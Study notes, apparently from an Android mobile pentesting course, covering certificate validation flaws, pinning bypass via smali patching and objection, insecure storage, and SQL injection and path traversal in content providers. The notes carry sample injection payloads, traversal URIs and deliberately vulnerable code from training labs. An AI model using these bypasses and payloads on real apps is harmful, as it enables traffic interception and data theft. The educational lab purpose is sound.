📌 Open `com.ubercab.apk` with `Jadx-GUI`

Check the `UBTrustManager` class for certificate validation vulnerabilities, and `HostNameVerifier` for host name validation issues.



```java
package com.ubercab.networking;

import java.security.cert.CertificateException;
import java.security.cert.X509Certificate;
import javax.net.ssl.X509TrustManager;

/* loaded from: classes.dex */
public class UBTrustManager implements X509TrustManager {
    @Override // javax.net.ssl.X509TrustManager
    public void checkClientTrusted(X509Certificate[] arg0, String arg1) throws CertificateException {
    }

    @Override // javax.net.ssl.X509TrustManager
    public void checkServerTrusted(X509Certificate[] chain, String authType) throws CertificateException {
    }

    @Override // javax.net.ssl.X509TrustManager
    public X509Certificate[] getAcceptedIssuers() {
        return new X509Certificate[0];
    }
}
```

- This `UBTrustManager` defines a custom `X509TrustManager` named `UBTrustManager` that lacks proper certificate validation. The `checkClientTrusted` and `checkServerTrusted` methods do not contain any validation logic, making the ***trust manager susceptible to accepting any certificate without verification***. This exposes the application to potential man-in-the-middle attacks

Check for `HostNameVerifier` misconfiguration.

- Search for `HostNameVerifier` and check the `com.google.api.client.http.apache.TrustAllSSLSocketFactory` class



```java
public TrustAllSSLSocketFactory() throws GeneralSecurityException {
    super(KeyStore.getInstance(KeyStore.getDefaultType()));
    this.socketFactory = SslUtils.trustAllSSLContext().getSocketFactory();
    setHostnameVerifier(SSLSocketFactory.ALLOW_ALL_HOSTNAME_VERIFIER);
}
```

- The class uses `SslUtils.trustAllSSLContext()` to obtain an `SSLContext` that trusts all certificates, effectively disabling SSL/TLS certificate validation.
  - The `setHostnameVerifier(SSLSocketFactory.ALLOW_ALL_HOSTNAME_VERIFIER)` method is called, disabling hostname verification. This allows connections to hosts with different names than the one to which the certificate was issued
- e.g. **Mitigations**: 
  - Implement proper certificate validation checks instead of blindly trusting all certificates.
  - Enable hostname verification to ensure that the certificate matches the host.

---

### Certificate Pinning

**Certificate pinning** is a security mechanism where applications validate a server's certificate against a predefined trusted set of certificates, public keys or issuers.

- Prevents MITM attacks
- In Android apps, certificates can be hardcoded, restricting the accepted certificates to a predefined set. Certificates/public keys must be knows and installed on the servers.

By *pinning* to a specific certificate/public key, a**ll other certificates/public keys will be refused** during the LS handshake.

- A list of certs/keys should be pinned in the app and in the event of compromise, remove only the compromised one from the list.
- Ensure protected backup certs/keys
- Only trust a single CA

To test an app with certificate pinning implemented, it must be disabled by

- reverse engineering and patching the certificate validation procedure class at `.smali` files level, repackage the app and install it
- using `Frida/Objection` tools for SSL Unpinning

---

### 🧪 Practice Lab 5

**Objectives**

- Understand cert pinning, its implementation and bypass

1. The `PinTester` lab app pins the certificate for `https://www.elearnsecurity.com` to a specific public key, using [a library](https://github.com/moxie0/AndroidPinning) that pins by comparing a hex-encoded hash of an X.509 certificate's `SubjectPublicKeyInfo` field containing the public key. This exact public key (expected in the TLS handshake) has been hardcoded into the application.

Open `PinTest.apk` with Jadx-GUI and search for `X509Certificate`.

Open the `org.thoughtcrime.ssl.pinning.PinningTrustManager` class.



```java
package org.thoughtcrime.ssl.pinning;

import android.util.Log;
import java.security.KeyStoreException;
import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;
import java.security.cert.CertificateException;
import java.security.cert.X509Certificate;
import java.util.Arrays;
import java.util.Collections;
import java.util.HashSet;
import java.util.LinkedList;
import java.util.List;
import java.util.Set;
import javax.net.ssl.TrustManager;
import javax.net.ssl.TrustManagerFactory;
import javax.net.ssl.X509TrustManager;

/* loaded from: classes.dex */
public class PinningTrustManager implements X509TrustManager {
    private final long enforceUntilTimestampMillis;
    private final SystemKeyStore systemKeyStore;
    private final TrustManager[] systemTrustManagers;
    private final List<byte[]> pins = new LinkedList();
    private final Set<X509Certificate> cache = Collections.synchronizedSet(new HashSet());

    public PinningTrustManager(SystemKeyStore keyStore, String[] pins, long enforceUntilTimestampMillis) {
        this.systemTrustManagers = initializeSystemTrustManagers(keyStore);
        this.systemKeyStore = keyStore;
        this.enforceUntilTimestampMillis = enforceUntilTimestampMillis;
        for (String pin : pins) {
            this.pins.add(hexStringToByteArray(pin));
        }
    }

    private TrustManager[] initializeSystemTrustManagers(SystemKeyStore keyStore) {
        try {
            TrustManagerFactory tmf = TrustManagerFactory.getInstance("X509");
            tmf.init(keyStore.trustStore);
            return tmf.getTrustManagers();
        } catch (KeyStoreException e) {
            throw new AssertionError(e);
        } catch (NoSuchAlgorithmException nsae) {
            throw new AssertionError(nsae);
        }
    }

    private boolean isValidPin(X509Certificate certificate) throws CertificateException {
        try {
            MessageDigest digest = MessageDigest.getInstance("SHA1");
            byte[] spki = certificate.getPublicKey().getEncoded();
            byte[] pin = digest.digest(spki);
            for (byte[] validPin : this.pins) {
                if (Arrays.equals(validPin, pin)) {
                    return true;
                }
            }
            return false;
        } catch (NoSuchAlgorithmException nsae) {
            throw new CertificateException(nsae);
        }
    }

    private void checkSystemTrust(X509Certificate[] chain, String authType) throws CertificateException {
        TrustManager[] arr$ = this.systemTrustManagers;
        for (TrustManager systemTrustManager : arr$) {
            ((X509TrustManager) systemTrustManager).checkServerTrusted(chain, authType);
        }
    }

    private void checkPinTrust(X509Certificate[] chain) throws CertificateException {
        if (this.enforceUntilTimestampMillis != 0 && System.currentTimeMillis() > this.enforceUntilTimestampMillis) {
            Log.w("PinningTrustManager", "Certificate pins are stale, falling back to system trust.");
            return;
        }
        X509Certificate[] cleanChain = CertificateChainCleaner.getCleanChain(chain, this.systemKeyStore);
        for (X509Certificate certificate : cleanChain) {
            if (isValidPin(certificate)) {
                return;
            }
        }
        throw new CertificateException("No valid pins found in chain!");
    }

    @Override // javax.net.ssl.X509TrustManager
    public void checkClientTrusted(X509Certificate[] chain, String authType) throws CertificateException {
        throw new CertificateException("Client certificates not supported!");
    }

    @Override // javax.net.ssl.X509TrustManager
    public void checkServerTrusted(X509Certificate[] chain, String authType) throws CertificateException {
        if (!this.cache.contains(chain[0])) {
            checkSystemTrust(chain, authType);
            checkPinTrust(chain);
            this.cache.add(chain[0]);
        }
    }

    @Override // javax.net.ssl.X509TrustManager
    public X509Certificate[] getAcceptedIssuers() {
        return null;
    }

    private byte[] hexStringToByteArray(String s) {
        int len = s.length();
        byte[] data = new byte[len / 2];
        for (int i = 0; i < len; i += 2) {
            data[i / 2] = (byte) ((Character.digit(s.charAt(i), 16) << 4) + Character.digit(s.charAt(i + 1), 16));
        }
        return data;
    }

    public void clearCache() {
        this.cache.clear();
    }
}
```

- **Static Pins:** The public key pins (`pins`) are hardcoded in the `PinningTrustManager` constructor, limiting the app to accept only these specific certificates.
  - The constructor takes an array of strings (`pins`) representing the hexadecimal representation of public key hashes. These values are then converted to byte arrays using the `hexStringToByteArray` method and added to the `pins` list. The pins in this list are later used for comparison during the certificate pinning process in the `isValidPin` method.
- **SHA-1 Algorithm Usage:** The code uses SHA-1 for hashing the public keys, which is considered weak and deprecated
- **No Pin Expiry Check**

Check the `MainActivity` class for `pins` string.



Extract the remote's server certificate.

```bash
echo -n | openssl s_client -connect www.elearnsecurity.com:443 | sed -ne '/-BEGIN CERTIFICATE-/,/-END CERTIFICATE-/p' > /tmp/els.cert
```

- Create a new Python script to generate SPKI pin hashes from X.509 files (based on the [pin.py - moxie0](https://github.com/moxie0/AndroidPinning/blob/master/tools/pin.py) tool). 
  - **❗️ This method is considered insecure due to vulnerabilities of `SHA-1` used in the script without any salt, making it vulnerable to collision attacks. Use it only for testing environment like this laboratory.**

```bash
nano ~/tools/pin3.py
```

```python
#!/usr/bin/env python3
"""pin generates SPKI pin hashes from X.509 PEM files."""

""""Moxie Marlinspike" https://github.com/moxie0/AndroidPinning/blob/master/tools/pin.py Script upgraded to Python3
**This method is considered insecure due to vulnerabilities of `SHA-1` used in the script without any salt, making it vulnerable to collision attacks. Use it only for testing environment like this laboratory.**
"""

import sys
import binascii
import hashlib
from cryptography import x509
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization

def main(argv):
    if len(argv) < 1:
        print("Usage: pin.py <certificate_path>")
        return

    with open(argv[0], 'rb') as cert_file:
        cert_data = cert_file.read()
        cert = x509.load_pem_x509_certificate(cert_data, default_backend())

    spki = cert.public_key().public_bytes(
        encoding=serialization.Encoding.DER,
        format=serialization.PublicFormat.SubjectPublicKeyInfo
    )

    digest = hashlib.sha1()
    digest.update(spki)

    print("Calculating PIN for certificate: " + cert.subject.rfc4514_string())
    print("Pin Value: " + binascii.hexlify(digest.digest()).decode())

if __name__ == '__main__':
    main(sys.argv[1:])
```

> - More on Certificate Pin calculation - [How to calculate certificate pin for OkHttp](https://weidianhuang.medium.com/how-to-calculate-certificate-pin-for-okhttp-1fba86b2c5f1)

```bash
python ~/tools/pin3.py /tmp/els.cert
    Calculating PIN for certificate: CN=*.elearnsecurity.com
    Pin Value: c19e11308c73545ab7814fae1ebde8ad8f73ed1
```

Today's certificate Pin Value is not equal to the hardcoded one.

```bash
8eb1d3f3eeec15af4bacad5ab6e8ea67b1a5f3a9
vs
c19e11308c73545ab7814fae1ebde8ad8f73ed1
```

Decompile, modify the string to `c19e11308c73545ab7814fae1ebde8ad8f73ed1` in the `MainActivity.smali` file, recompile, sign and reinstall apk.

```bash
apktool d PinTester.apk
code PinTester/smali/com/elearnsecurity/android/pintest/MainActivity.smali

# modify const-string v5, "8eb1d3f3eeec15af4bacad5ab6e8ea67b1a5f3a9" to

const-string v5, "c19e11308c73545ab7814fae1ebde8ad8f73ed1"

# Re-compile the app
apktool b PinTester/ -o PinTester_new.apk

    I: Using Apktool 2.9.2
    I: Checking whether sources has changed...
    I: Checking whether resources has changed...
    I: Building resources...
    I: Building apk file...
    I: Copying unknown files/dir...
    I: Built apk into: PinTester_new.apk

# Sign the app and install it
keytool -genkey -v -keystore test.keystore -alias testalias -keyalg RSA -keysize 2048 -validity 10000

jarsigner -sigalg SHA1withRSA -digestalg SHA1 -keystore test.keystore PinTester_new.apk testalias

jarsigner -verify -verbose -certs PinTester_new.apk

adb install PinTester_new.apk
```

- Testing the app, it crashes with `FATAL EXCEPTION: AsyncTask #1 java.lang.RuntimeException: An error occurred while executing doIn
  Background()` - I won't continue further troubleshooting in this notes.

2. The `PatchMe` lab app implements certificate pinning trusting `https://wwww.bing.com` certificate, based on this project [https://github.com/ikust/hello-pinnedcerts](https://github.com/ikust/hello-pinnedcerts). Bypass certificate pinning.

```bash
objection -g com.patchme.app explore -s "android sslpinning disable"
```



---

## Device & Data Security

> 🔗 [Android Data Storage](https://mas.owasp.org/MASTG/Android/0x05d-Testing-Data-Storage/)

### Storage

**The best way to secure data in a mobile app is not to retain it at all.**

- Clear the local data whenever the app is closed / sign out
- Use encryption on sensitive data, with secure storage of the keys

**Internal Storage**

Linux file permissions are used in Android OS.

- `/data/app/` - apps directory
- `/system/app/` - system apps directory
- `/system/priv-app/` -  sensitive system apps directory



Files under the internal storage app's directory are accessible only to the app itself.

- [SharedPreferences](https://developer.android.com/training/data-storage/shared-preferences) - allows to save and retrieve data in the form of key-value pair, using the `getSharedPreferences` method, with the second parameter being the MODE
  - `MODE_APPEND` - append data to the end of the file
  - `MODE_PRIVATE` - the file can only be accessed using calling application (or same user ID app)
  - `MODE_WORLD_READABLE` (*deprecated since API level 17*) - allow other application to read the file
  - `MODE_WORLD_WRITEABLE` (*deprecated since API level 17*) - allow other application to write to the file
- [DataStore](https://developer.android.com/topic/libraries/architecture/datastore) - allows to store key-value pairs or typed objects with [protocol buffers](https://developers.google.com/protocol-buffers). DataStore uses Kotlin coroutines and Flow to store data asynchronously, consistently, and transactionally.

**External Storage**

- Removable SD Cards
- `/sdcard/` or `/mnt/sdcard/` - Emulated SD Card

Android defines the following storage-related permissions:

- [`READ_EXTERNAL_STORAGE`](https://developer.android.com/reference/android/Manifest.permission#READ_EXTERNAL_STORAGE) - allows an application to read from external storage. . Access any file outside the [app-specific directories](https://developer.android.com/training/data-storage/app-specific#external) on external storage
- [`WRITE_EXTERNAL_STORAGE`](https://developer.android.com/reference/android/Manifest.permission#WRITE_EXTERNAL_STORAGE) - allows an application to write to external storage. 
- [`MANAGE_EXTERNAL_STORAGE`](https://developer.android.com/reference/android/Manifest.permission#MANAGE_EXTERNAL_STORAGE) - allows an application a broad access to external storage in scoped storage

> On **Android 4.4 (API level 19)** or higher, your app **doesn't need to request any storage-related permissions to access app-specific directories within external storage**. The files stored in these directories are removed when your app is uninstalled.
>
> On devices that run **Android 9 (API level 28)** or lower, your **app can access the app-specific files that belong to other apps, provided that your app has the appropriate storage permissions**.
>
> To give users more control over their files and to limit file clutter, apps that target **Android 10 (API level 29)** and higher are given **scoped access into external storage**, or [scoped storage](https://developer.android.com/training/data-storage#scoped-storage), by default. When scoped storage is enabled, apps cannot access the app-specific directories that belong to other apps.

---

### 🧪 Practice Lab 6

**Objectives**

- Understand level of data storage security on various Android API levels

Install labs apps to the (emulated) devices (one with API Level <=17, one with API Level >17).

```bash
adb install InsecureExternalStorage.apk
adb install ReadExternalStorage.apk
```

Test the app and data storage.

With the `InsecureExternalStorage` app it saves a file in the `/sdcard/Android/data/com.els.insecureexternalstorage/files/FileContainer` directory.

With the `ReadExternalStorage` app tries to read the file.

- 📌 Device with API Level 17 (**Android 4.2**) or lower, any files stored by an application in the external storage are accessible by other applications on the device.
- 📌 Device with API Level over 17 (e.g. **Android 9**), any files stored by an application in the external storage is not accessible by other applications on the device. (Permission denied error)



---

### Device Administration API

Companies can use **MDM** (Mobile Device Management) software solutions to maintain a measure of control to protect sensitive data on corporate or personal devices (BYOD - *Bring your own device*).

An MDM app must be installed for administrators remote control. MDM uses built-in Android features (Device Administration API) to:

- enforce password policy
- force storage encryption
- enable remote wiping
- detect rooted device
- control installed software, etc

**Root Detection**

**Rooting** - obtain `root` (superuser) access on Android (same as Linux)

- full control over the device
- app's with root permission can interact with data outside of its directory - device at risk

Root detection can be bypassed. Check [MASTG - Testing Root Detection](https://mas.owasp.org/MASTG/tests/android/MASVS-RESILIENCE/MASTG-TEST-0045/).

> 🔗 [7 methods for Bypassing Android Root detection - Kishor balan](https://kishorbalan.medium.com/my-fav-7-methods-for-bypassing-android-root-detection-f8afb0ddfaf3)

---

### Third Party Code

**SDK** (Software Development Kits) - classe or `jar` files used to interface with code written by third-parties. SDKs must be coming from reputable sources.

- `e.g.` [Facebook SDK](https://developers.facebook.com/docs/android/)

A pentester must understand which SDKs are included in the app and what functionalities they offer or known vulnerabilities.

**Libraries** - the use of third-party libraries is common and they can introduce vulnerabilities (`e.g.` [Heartbleed](https://heartbleed.com/)).

- track the use of libs, update regularly
- crate an inventory of those libraries

**Device Tracking** is used sometimes to track users' behavior or for DRM purposes, through unique identifiers like the MAC Address, IMEI, Serial Number, Android ID, etc.

- Tracking/Advertising standards

---

## Tapjacking

**Tapjacking** on Android refers to a type of user interface (UI) attack where an attacker overlays a malicious UI element on top of a legitimate app's interface, tricking users into unintended interactions by tapping on seemingly harmless elements that actually perform malicious actions.

> 🧪 [Tapjacking Hacktricks](https://book.hacktricks.xyz/mobile-pentesting/android-app-pentesting/tapjacking)

🔗 Read [Tapjacking-ExportedActivity Attack app - by HackTricks](https://github.com/carlospolop/Tapjacking-ExportedActivity) - *This project is an Android application that will **start by launching the indicated exported application** and then it will put on the foreground a malicious application that will be **changing what the user is looking at** while the user is actually interacting with the malicious application.*

- In the `AndroidManifest.xml` Check the presence of explicitly exported activities (`android:exported="true"`) and implicitly exported (using an `intent-filter`)
- `filterTouchesWhenObscured="true"` attribute would prevent the exploitation of this vulnerability. If set to `true`, the view will not receive touches whenever view's windows is obscured.

---

## Static Code Analysis

**Static Code Analysis** is the examination of the application source code, without executing the program.

- mapping the sources of potential attacker controlled input, determine all the sinks, and checking whether the input encounters a sensitive function
- components trust one another, but the user/attacker should not be trusted
- **trust boundary** - line between the user and all internal portions of an app
- sanitize the inputs through intermediate steps

Creating a threat model for Android apps requires enumerating unprotected exported components and monitoring the flow of **Intents** and **Extras** throughout the application.

- `AndroidManifest.xml` specifies the **Intents** and **Extras** that our apps will accept as input from other applications on the device. It also defines the behavior of the **WebViews**, **File storage** and which **components** are exposed to attacks. In addition, untrusted input is the active content (JavaScript) rendered in WebViews.
- Unencrypted transport layer is considered a potentially untrusted input.

### 🧪 Practice Lab 7

> [goatdroid.apk](https://github.com/linkedin/qark/blob/master/tests/goatdroid.apk) + lab files will be used

**Objectives**

- Static analysis with vulnerability identification
- Reverse the in scope app
- Exploit non secure app's receiver

Decompile the app and examine the source code. Identify insecure broadcast receiver based vulnerabilities and create evidence.

```bash
apktool d goatdroid.apk

# Open goatdroid.apk in Jadx-GUI
```



```bash
<receiver android:label="Send SMS" android:name="org.owasp.goatdroid.fourgoats.broadcastreceivers.SendSMSNowReceiver">
    <intent-filter>
        <action android:name="org.owasp.goatdroid.fourgoats.SOCIAL_SMS"/>
    </intent-filter> &gt;\10
</receiver>
```

- This receiver is implicitly exported due to the `intent-filter` presence. Since it's not protected, any other app can pass an **Intent** to it and trigger the receiver.
- Check the `SendSMSNowReceiver` class



```java
package org.owasp.goatdroid.fourgoats.broadcastreceivers;

import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.os.Bundle;
import android.telephony.SmsManager;
import org.owasp.goatdroid.fourgoats.misc.Constants;
import org.owasp.goatdroid.fourgoats.misc.Utils;

/* loaded from: classes.dex */
public class SendSMSNowReceiver extends BroadcastReceiver {
    Context context;

    @Override // android.content.BroadcastReceiver
    public void onReceive(Context arg0, Intent arg1) {
        this.context = arg0;
        SmsManager sms = SmsManager.getDefault();
        Bundle bundle = arg1.getExtras();
        sms.sendTextMessage(bundle.getString("phoneNumber"), null, bundle.getString("message"), null, null);
        Utils.makeToast(this.context, Constants.TEXT_MESSAGE_SENT, 1);
    }
}
```

- The `onReceive` method retrieves **Extras** from the `Intent` using `Bundle bundle = arg1.getExtras()`. The values of those Extras are used in the `sendTextMessage` sensitive method (it allows an application to send SMS messages without user interaction).

**Vulnerability**

- Any app on the device can broadcast the `org.owasp.goatdroid.fourgoats.SOCIAL_SMS` action, triggering the `SendSMSNowReceiver` to send SMS messages.
- An attacker can craft broadcasts with arbitrary content for the `phoneNumber` and `message` Extras, potentially leading to SMS spoofing.

Check [Drozer Tool](#drozer) for the exploitation.

---

### [SQL Injection](https://portswigger.net/web-security/sql-injection)

If the source-sink is user-controllable input, there exists a potential vulnerability known as **SQL Injection**, where the sink is the query itself (input not sanitized, etc) being altered.

SQL Query: **Projection** (select specific table columns) + **Selection** ("where", select specific table rows based on a condition)

```sql
SELECT * FROM table_name WHERE condition;
```

- If the construction of the *selection* string lacks parameterization, it becomes susceptible to SQL Injection.

**Parameterized queries,** or **prepared statements**, are SQL queries in which placeholders are used for parameters instead of directly inserting values into the query string. Parameterized queries help to sanitize input data and protect against malicious input that could manipulate the SQL query structure.

```java
cursor.execute("SELECT * FROM users WHERE username = ? AND password = ?;", (input_username, input_password))
```

- `e.g.` of vulnerable query

```bash
"SELECT * FROM Users WHERE name = '" + uName +"' AND pass = '" + uPass +"'";
# This vulnerable query could become

"SELECT * FROM Users WHERE name = 'admin'-- ' AND pass = '" + uPass +"'";
# -- = comment
# The query will be
SELECT * FROM Users WHERE name = 'admin';
# password portion will be ignored
```

### Content Resolver / Provider

**[ContentResolver](https://developer.android.com/reference/android/content/ContentResolver)** - This class provides applications access to the content model. It acts as an intermediary between the application and the Content Provider, allowing the application to perform various operations on data stored in the Android system.

- It resolves content **URIs** (Uniform Resource Identifier) to the corresponding content provider, allowing applications to specify the data they want to access
- CRUD (create, retrieve, update, delete) operations are available via *[content URIs](https://developer.android.com/reference/android/content/ContentUris)*
  - these map to specific methods on the `Content Resolver` object - `insert`, `query`, `update`, `delete`
  - they map the content URIs to a specific `Content Providers`

- `content://authority/path/id` URI format

```java
content://com.android.contacts/contacts

// Example of a content URI for accessing contacts data
Uri contactsUri = ContactsContract.Contacts.CONTENT_URI;

// This content URI uniquely identifies the contacts data in the Contacts content provider
```

```bash
ugrep "content://" InjectMe/app/src/main/java/com/elearnsecurity/injectme/MainActivity.java

String URL = "content://com.elearnsecurity.injectme.provider.CredentialProvider/credentials";
String URL = "content://com.elearnsecurity.injectme.provider.CredentialProvider/credentials";
```

The `CredentialProvider` of the InjectMe app is vulnerable to SQL injection.

These vulnerabilities can manifest in the **Content Providers** in Android apps, and are exploited to dump databases.

```bash
<provider android:name=".CredentialProvider"
	android:authorities="com.elearnsecurity.injectme.provider.CredentialProvider">
</provider>
```

**[Content Providers](https://developer.android.com/guide/topics/providers/content-providers)** - facilitate structured data sharing among applications by defining a uniform and secure interface for data retrieval and manipulation.

- Content providers may be exposed to other apps

```xml
<!-- Define a custom permission -->
<permission
    android:name="com.example.myapp.permission.MY_CUSTOM_PERMISSION"
    android:protectionLevel="signature" />

<!-- Use the custom permission for a Content Provider -->
<provider
    android:name=".MyContentProvider"
    android:authorities="com.example.myapp.myprovider"
    android:exported="true"
    android:permission="com.example.myapp.permission.MY_CUSTOM_PERMISSION">
</provider>

<!-- Request the custom permission in another component -->
<uses-permission android:name="com.example.myapp.permission.MY_CUSTOM_PERMISSION" />
```

- Control dynamic access to content URIs by using various attributes in the `<provider>` element of the `AndroidManifest.xml` file, carefully configuring these attributes.

  - `android:exported:`
  - `android:permission:` - permission that clients must have to access the content provider
  - `android:readPermission:`
  - `android:writePermission:`
  - etc
  - `<grant-uri-permission>` sub-element in the `<provider>` element is used to specify additional URI patterns for which other apps can be granted temporary permissions to access the content provider. This element is often used in conjunction with the `android:exported` attribute to control access to specific URIs within the provider.

```xml
<provider
    android:name=".MyContentProvider"
    android:authorities="com.example.myapp.myprovider"
    android:exported="false">

    <!-- Granting URI permissions to specific paths -->
    <grant-uri-permission android:path="/specificPath/*" />
    <grant-uri-permission android:pathPattern="/specificPath/*" />
    <grant-uri-permission android:pathPrefix="/anotherPath/*" />
</provider>

<!-- In this example, the `<grant-uri-permission>` element specifies two URI patterns ("/specificPath/*" and "/anotherPath/*") for which other apps can be granted temporary permissions to access the content provider. -->
```

---

### 🧪 Practice Lab 8

> `InjectMe` app lab files will be used.

**Objectives**

- Enumerate URIs and exploit the app's content provider to inject SQL query.

Decompile the app and examine the source code. Identify content URI in the application and as much as possible about the app's attack surface.

```bash
adb install InjectMe/app/build/outputs/apk/app-debug.apk
```

- Create and store some credentials - `CredentialProvider` is used

Check `InjectMe/app/src/main/AndroidManifest.xml`



```bash
<provider android:name=".CredentialProvider"
  	android:authorities="com.elearnsecurity.injectme.provider.CredentialProvider">
</provider>
```

- **Physical Local Attacks** - On devices with **API Levels 8 - 23**, Content providers can be queried from a privileged context (e.g. ADB shell) even if `android:exported="false"`, but not on devices with API Level 24+
- The content provider is accessible by third-party apps with no permissions, on devices with **API Level <17** (since the content provider is explicitly exported)

To enumerate all the content URIs extract `classes.dex` file from the built `apk` and check it with `strings` command

```bash
unzip app-debug.apk

strings classes.dex | grep "content://"
	content://com.elearnsecurity.injectme.provider.CredentialProvider/credentials
```

Explore the `CredentialProvider.java` class in the source code



- Check the source code for `Query` (retrieve) methods, parameterized queries or input sanitization.
  - `switch` statement - as long as the URI is valid, it will match one of the two options and take the URI input into the query
  - The code concatenates the `uri.getLastPathSegment()` directly into the SQL query for the `CREDENTIALS_ID` case. If the `getLastPathSegment()` method returns user-controlled input, it could lead to **SQL injection** vulnerabilities. There is no explicit usage of parameterized queries or input sanitization.
  - The code logs information using `Log.v("InjectMe", ...)`. Logging sensitive information like database queries or IDs might expose details to potential attackers



Exploit the vulnerability, by interacting with the insecure content provider.

```bash
adb shell content query --uri content://com.elearnsecurity.injectme.provider.CredentialProvider/credentials

# Permission denied on Android 9 (API Level 28) device
```

- Try the same on an Android 6 (API level 23) device, permissions should be granted.



---

### Path Traversal

**Path traversal** is a security vulnerability where an attacker manipulates file paths to access unauthorized directories or files.

This vulnerability impacts Android content providers and services, enabling exploitation by other applications with the ability to read data from the affected app.

```bash
# Adobe Reader e.g.
content://com.adobe.reader.fileprovider/../../../file_to_read
```

---

### 🧪 Practice Lab 9

> `FileBrowser` app lab files will be used.

**Objectives**

- Exploit app's user input sanitization to perform a path traversal attack
- Create a POC (Proof of Concept) exploit app `FileBrowserExploit.apk`

Install both `FileBrowser.apk` and `FileBrowserExploit.apk`

Understand application's attack surface - `AndroidManifest.xml`.

- `FileBrowser.apk` allows to read the contents of different files stored on the SD card



```bash
# Focus on
<provider
	android:name="com.els.filebrowser.accessfile"
	android:enabled="true"
	android:exported="true"
	android:authorities="com.els.filebrowser"
	android:grantUriPermissions="true"
/>
```

Examine source code for possible user input sanitization inefficiencies.

- The content provider of the application is explicitly exposed and provides file operations. Through this content provider implementation, file access to the application (or other apps) is granted when provided with a URI.
  - It has to implement the `openFile` method (`accessfile` class)



```java
public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {

    int uriType = sURIMatcher.match(uri);

    if (uriType == 10) {
        throw new FileNotFoundException(uri.getPath());
    }

    File f = new File(uri.getPath()); //get file located in the specified URI path

    if (f.exists()) {
        return ParcelFileDescriptor.open(f, 268435456);
    } // if file exists, return it

    throw new FileNotFoundException(uri.getPath());
}
```

- The method, when provided with a URI, returns a `ParcelFileDescriptor` file object, allowing the application to perform operations on it.
  - The `File` object is created directly from the URI path without proper validation, allowing the possibility of directory traversal attacks.

```bash
# Focus on
<activity android:name="com.els.filebrowser.Content"/>
```

Opening the `Content` class, check how the app opens and reads a file.



```java
package com.els.filebrowser;

import android.app.Activity;
import android.net.Uri;
import android.os.Bundle;
import android.text.method.ScrollingMovementMethod;
import android.widget.TextView;
import android.widget.Toast;
import java.io.BufferedReader;
import java.io.FileNotFoundException;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;

/* loaded from: classes.dex */
public class Content extends Activity {
    @Override // android.app.Activity
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_content);
        TextView text = (TextView) findViewById(R.id.textView1);
        text.setMovementMethod(new ScrollingMovementMethod());
        Uri path = getIntent().getData();
        //Lack of Input Validation/Sanitization
        try {
            InputStream content = getContentResolver().openInputStream(path);
            // opens a stream to the content associated with a content URI, path=file URI

            BufferedReader reader = new BufferedReader(new InputStreamReader(content));
            while (true) {
                String line = reader.readLine();
                if (line != null) {
                    text.append(line);
                } else {
                    return;
                }
            }
            //open the file, read it line by line and append it to the TextView component

        } catch (FileNotFoundException e) {
            e.printStackTrace();
            Toast.makeText(getApplicationContext(), "Can't handle this file", 0).show();
            finish();
        } catch (IOException e2) {
            e2.printStackTrace();
            Toast.makeText(getApplicationContext(), "Can't handle this file", 0).show();
            finish();
        }
    }
}
```

- **Lack of Input Validation/Sanitization** - The code does not validate or sanitize the URI obtained from `getIntent().getData()`. 

❗️ This could lead to **path traversal attacks** or unintended access to sensitive files, allowing any external app to use a **directory traversal attack** to request other files by supplying a URI with `../` repeated characters and the name of the files to read.

Prove the vulnerability by using the `FileBrowserExploit.apk` to read the `/etc/hosts` file.



---

### Vulnerable Activities

**[Activities](https://developer.android.com/guide/components/activities/intro-activities)** - In contrast to programming paradigms with a `main()` method for app launch, the Android system triggers code execution in an **Activity** instance (visual elements, screens) through designated callback methods, each corresponding to distinct stages in its lifecycle.

- Activities are vulnerable when allow access to user data without authentication, when exported unnecessarily, etc
- `e.g.` When not protected properly, a login requirement can be bypassed

Here is an example of an exported activity with no `android:permission` set. Any application can send an appropriate **intent** to this vulnerable app and spawn this activity, and sensitive information can be found.

```xml
<activity android:name="
com.elearnsecurity.insecureactivities.LeakyActivity"
    android:label="leaky" android:exported="true">
    <intent-filter>
        <action android:name="
android.elearnsecurity.insecureactivities.leaky"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</activity>

<activity android:name="com.elearnsecurity.insecureactivities.SecretActivity"
    android:label="secret" android:exported="true">
    <intent-filter>
        <action android:name="android.elearnsecurity.insecureactivities.bypass"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</activity>
```



---

### Vulnerable Receivers

**[Receivers](https://developer.android.com/develop/background-work/background-tasks/broadcasts)** - components in the Android system that enable apps to respond to system-wide events or broadcasts. They listen for and react to broadcast messages from the system or other apps.

```xml
<!-- If this receiver listens for broadcasts sent from the system or from
     other apps, even other apps that you own, set android:exported to "true". -->
<receiver android:name=".MyBroadcastReceiver" android:exported="false">
    <intent-filter>
        <action android:name="APP_SPECIFIC_BROADCAST" />
    </intent-filter>
</receiver>
```

- `e.g.` of vulnerable receiver (implicitly) exported without any permissions. The corresponding class contains code for extracting an Extra (named `PASSWORD`) for the intent received, then send an intent to `MainActivity` passing the password along as an Extra.

```bash
<receiver android:name="com.elearnsecurity.vulnerablereceiver.VulnerableReceiver">
    <intent-filter>
        <action android:name="com.elearnsecurity.vulnerablereceiver.CHANGEPW"/>
    </intent-filter>
</receiver>
```





---

### Vulnerable Services

**[Services](https://developer.android.com/reference/android/app/Service)** - component that either executes prolonged operations without user interaction or provides functionality for other applications to utilize.

- `e.g.` of vulnerable purposefully exported service. When started, it writes a file called `/data/data/com.elearnsecurity.sillyservice/files/private.txt`. Since it run a shell `find` command, it allows another app to send an intent to verify the file exists.
  - `onStartCommand` method is called when an intent is received to start or connect to the service
  - `cmdExtra` value is drawn from an Extra with the name `COMMAND`
  - `if` statement ensures the command received starts with the string `find`. If this check passes, Extra value is passed to String Array `cmd`
  - once the String Array `cmd` is compiled, it passes to the `exec` method of the `Runtime` object = bin files can be spawned like in a cmd prompt
- ❗️ unless the input is limited, the pattern of untrusted input ends up in a sensitive function, **executing arbitrary commands** (check Dynamic Analysis for the vulnerability)

```bash
<service android:name="com.elearnsecurity.sillyservice.SillyService" android:exported="true"/>
```

```java
if (cmdExtra.startsWith("find")) {
	System.out.println("TOTALLY SECURE");
